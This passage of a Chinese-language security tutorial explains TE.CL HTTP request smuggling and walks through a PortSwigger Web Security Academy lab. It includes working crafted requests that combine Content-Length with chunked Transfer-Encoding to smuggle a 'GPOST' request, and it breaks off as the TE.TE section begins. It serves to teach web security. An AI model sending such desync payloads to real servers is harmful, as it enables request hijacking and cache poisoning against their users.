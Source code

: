 在此类场景下，前端服务器使用 Transfer-Encoding 头，后端服务器使用 Content-Length 头，我们可以执行简单的 HTTP 请求走私攻击，如下所示：

```bash
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```

前端服务器处理 Transfer-Encoding 头，因此将邮件正文视为使用分块编码，它处理第一个块，据说它有 8 个字节长，直到走私的下一行的开始，它处理第二个块，该块被声明为零长度，因此被视为终止请求，这个请求被转发到后端服务器，后端服务器处理 Content-Length 标头并确定请求正文的长度为 3 个字节，直到第 8 行的开头，接下来的字节，从走私开始没有被处理，后端服务器将把这些视为序列中下一个请求的开始  
靶场地址：[https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl](https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl)  
解题过程：  
Step 1：访问以上链接进入到靶场，随后点击"ACCESS THELAB"进入靶场  
[![](assets/1704418275-0fbfb65368038a2bf677a63bcdeeeb75.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154143-8a6035f8-aa0b-1.png)  
Step 2：修改从 burpsuite 中捕获到的数据报文，构造如下的请求走私请求 (这里推荐打击使用新版本的 Burpsuite，主要是可以可视化换行，其次需要注意的一个点是最后的那个 0 的后面也得\\r\\n，再者是需要移除栏目 Repeater 中的 UnUpdate Content-Length)

```bash
POST / HTTP/1.1
Host: 0a96003604f8aabe8031df2300fe009a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

[![](assets/1704418275-dabb06d085cb50b259f3f1cca63f97cb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154206-979f3a70-aa0b-1.png)  
随后进行第二次发包，提示"Unrecognized method GPOST"

[![](assets/1704418275-aff18da5d97a214c1f881b3931f9ca3f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154223-a1d7c0de-aa0b-1.png)  
Step 3：随后完成解题操作

[![](assets/1704418275-3405a7bd4b233f20c9cf8abe1dc0539c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154238-ab1ae19e-aa0b-1.png)

### TE.TE vulnerabilities

在这种场景下，前端和后端服务器都支持 Transfer-Encoding 头，但是可以通过以某种方式混淆头来诱导其中一个服务器不处理它，可能有无穷无尽的方法来混淆传输编码头，例如：
